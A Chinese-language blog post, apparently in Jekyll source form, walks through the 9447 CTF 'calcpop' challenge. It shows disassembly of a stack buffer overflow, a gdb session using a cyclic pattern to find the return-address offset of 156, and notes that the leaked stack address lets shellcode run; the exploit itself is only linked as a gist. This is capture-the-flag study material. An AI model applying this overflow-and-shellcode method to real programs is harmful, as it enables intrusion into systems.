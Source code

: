 ```yaml
---
title: 'Writeup-9447 CTF: calcpop'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


先看反汇编代码：
{% highlight objdump %}
...
8048460:	55                   	push   %ebp
8048461:	89 e5                	mov    %esp,%ebp
8048463:	57                   	push   %edi
8048464:	56                   	push   %esi
8048465:	be 00 01 00 00       	mov    $0x100,%esi
804846a:	53                   	push   %ebx
804846b:	83 e4 f0             	and    $0xfffffff0,%esp
804846e:	81 ec 90 00 00 00    	sub    $0x90,%esp
8048474:	a1 60 a0 04 08       	mov    0x804a060,%eax
8048479:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
8048480:	00
8048481:	8d 5c 24 10          	lea    0x10(%esp),%ebx
8048485:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
804848c:	00
804848d:	89 df                	mov    %ebx,%edi
804848f:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
8048496:	00
8048497:	89 04 24             	mov    %eax,(%esp)
804849a:	e8 a1 ff ff ff       	call   8048440 <setvbuf@plt>
804849f:	c7 04 24 10 88 04 08 	movl   $0x8048810,(%esp)
80484a6:	e8 55 ff ff ff       	call   8048400 <puts@plt>
80484ab:	eb 29                	jmp    80484d6 <main+0x76>
80484ad:	8d 76 00             	lea    0x0(%esi),%esi
80484b0:	a1 40 a0 04 08       	mov    0x804a040,%eax
80484b5:	89 04 24             	mov    %eax,(%esp)
80484b8:	e8 33 ff ff ff       	call   80483f0 <_IO_getc@plt>
80484bd:	85 c0                	test   %eax,%eax
80484bf:	0f 88 e3 00 00 00    	js     80485a8 <main+0x148>
80484c5:	88 07                	mov    %al,(%edi)
80484c7:	83 ee 01             	sub    $0x1,%esi
80484ca:	83 c7 01             	add    $0x1,%edi
80484cd:	83 f8 0a             	cmp    $0xa,%eax
80484d0:	0f 84 ca 00 00 00    	je     80485a0 <main+0x140>
80484d6:	83 fe 01             	cmp    $0x1,%esi
80484d9:	77 d5                	ja     80484b0 <main+0x50>
80484db:	85 f6                	test   %esi,%esi
80484dd:	0f 85 bd 00 00 00    	jne    80485a0 <main+0x140>
...
{% endhighlight %}

这段代码是 main() 函数起始的位置，可以看到这里的工作是将终端输入的数据循环读入栈中。其中 esi 寄存器是循环计数器，初始值是 0x100, 而在栈中划分的空间只有 0x90 字节, 这里存在栈溢出。

用 `pattern.py 256` 生成 pattern, 开 gdb 调试 calcpop.
{% highlight console%}
$ gdb calcpop
Reading symbols from calcpop...done.
(gdb) r
Starting program: /home/cubelin/is/ctf/9447/pwn/calcpop/calcpop
Welcome to calc.exe
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
Missing a space; your input was 0xffffd390
Missing a space; your input was 0xffffd390
exit
Exiting...

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
(gdb) quit

$ pattern.py 0x41326641
Pattern 0x41326641 first occurrence at position 156 in pattern.
{% endhighlight%}

main() 函数返回地址在 offset 为 156 的位置。然后借由程序返回的栈地址，可以直接执行栈中的 shellcode.

exp 如下:

{% gist cubarco/ee054809d1643602b844 %}
